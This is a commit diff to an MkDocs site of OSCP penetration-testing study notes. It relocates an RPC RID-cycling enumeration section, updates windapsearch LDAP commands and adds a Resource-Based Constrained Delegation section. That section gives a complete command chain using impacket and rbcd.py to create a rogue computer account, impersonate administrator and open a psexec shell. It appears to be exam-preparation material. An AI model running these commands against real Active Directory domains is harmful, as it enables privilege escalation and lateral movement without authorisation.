

Before and after one commit to krovs/oscp-notes, an MkDocs documentation site: the page built from docs/10_info_gathering.md, in a window 1280 px wide and 1400 px high, scrolled down 8243 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Add rbcd attack and fixes

````diff
--- a/docs/10_info_gathering.md
+++ b/docs/10_info_gathering.md
@@ -340,6 +340,21 @@
 querydispinfo
 ```
 
+#### RPC RID Cycling Attack
+
+If we can connect but have no permissions to enum, maybe we can enum by RID Cycling.
+
+```shell
+# first, enum administrator
+> rpcclient -U "guest%" <ip> -c 'lookupnames administrator'
+administrator S-1-5-21......-500
+# the rid is 500, so we can lookupsids increasing the rid
+> rpcclient -U "guest%" <ip> -c 'lookupsids S-1-5-21......-501'
+> rpcclient -U "guest%" <ip> -c 'lookupsids S-1-5-21......-502'
+# this can be automated
+seq 400 2000 | xargs -P 50 -I {} rpcclient -U "guest%" <ip> -c 'lookupsids S-1-5-21......-{}'
+```
+
 ### IMAP - 143, 993 (TLS)
 
 > [Commands examples](https://donsutherland.org/crib/imap)
@@ -385,7 +400,7 @@
 
 ### LDAP - 389, 636 (TSL)
 
-> [Windapsearch](https://github.com/ropnop/windapsearch)
+> [go-windapsearch](https://github.com/ropnop/go-windapsearch)
 
 ```shell
 # get users info
@@ -406,15 +421,15 @@
 
 # windapsearch.py
 # get all users
-python3 windapsearch.py --dc-ip <ip> -u <username> -p <password> -U
+windapsearch -d <domain> -u <username> -p <password> -m users
 # get all domain admin members
-python3 windapsearch.py --dc-ip <ip> -u <username> -p <password> --da
+windapsearch -d <domain> -u <username> -p <password> -m members -s 'domain admin'
 # get groups
-python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> -G
+windapsearch -d <domain> -u <username> -p <password> -m groups
 # get computers
-python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> -C
+windapsearch -d <domain> -u <username> -p <password> -m computers
 # get privileged users
-python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> -PU
+windapsearch -d <domain> -u <username> -p <password> -m privileged-users
 ```
 
 ### MSSQL - 1433
@@ -446,21 +461,6 @@
 patator rdp_login host=<ip> user='administrator' password=FILE0 0=<wordlist>
 ```
 
-#### RPC RID Cycling Attack
-
-If we can connect but have no permissions to enum, maybe we can enum by RID Cycling.
-
-```shell
-# first, enum administrator
-> rpcclient -U "guest%" <ip> -c 'lookupnames administrator'
-administrator S-1-5-21......-500
-# the rid is 500, so we can lookupsids increasing the rid
-> rpcclient -U "guest%" <ip> -c 'lookupsids S-1-5-21......-501'
-> rpcclient -U "guest%" <ip> -c 'lookupsids S-1-5-21......-502'
-# this can be automated
-seq 400 2000 | xargs -P 50 -I {} rpcclient -U "guest%" <ip> -c 'lookupsids S-1-5-21......-{}'
-```
-
 ### WinRM - 5985, 5986 (TLS)
 
 ```shell
--- a/docs/19_ad_exploitation.md
+++ b/docs/19_ad_exploitation.md
@@ -189,6 +190,31 @@
 .\mimikatz.exe "lsadump::dcsync /user:<domain>\<user>" "exit"
 ```
 
+## RBCD
+
+A **Resource-Based Constrained Delegation** allows an attacker with write access to a computer object's delegation attribute to impersonate any user on that computer, enabling privilege escalation or lateral movement.
+
+> <https://github.com/tothi/rbcd-attack>
+
+```shell
+# Create a new computer
+impacket-addcomputer <domain>/<user> -computer-name 'evilcomputer$' -computer-pass 'ev1lP@sS' -dc-ip <ip> -hashes :<hash>
+
+# Add the related security descriptor of the newly created EVILCOMPUTER to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer
+rbcd.py -f EVILCOMPUTER -t <computer> -dc-ip <ip> <domain>\\<user> -hashes :<hash>
+
+# Fetch a CIFS Service Ticket on behalf of the targetted domain user admin and stores it in the file admin.ccache
+impacket-getST -spn cifs/<computer>.<domain> -impersonate administrator -dc-ip <ip> <domain>/EVILCOMPUTER$:ev1lP@sS
+```
+
+Export the ticket and access the computer as administrator
+
+```shell
+export KRB5CCNAME=administrator@cifs_<computer>.<domain>@<DOMAIN>.ccache
+
+impacket-psexec -k <computer>.<domain>
+```
+
 ## CVEs and Exploits
 
 - [CVE-2020-1472 - Zerologon](https://github.com/VoidSec/CVE-2020-1472)
````
Also changed, not shown: other parts of docs/19_ad_exploitation.md (+2 -1 lines), docs/index.md (+1 -1 lines).
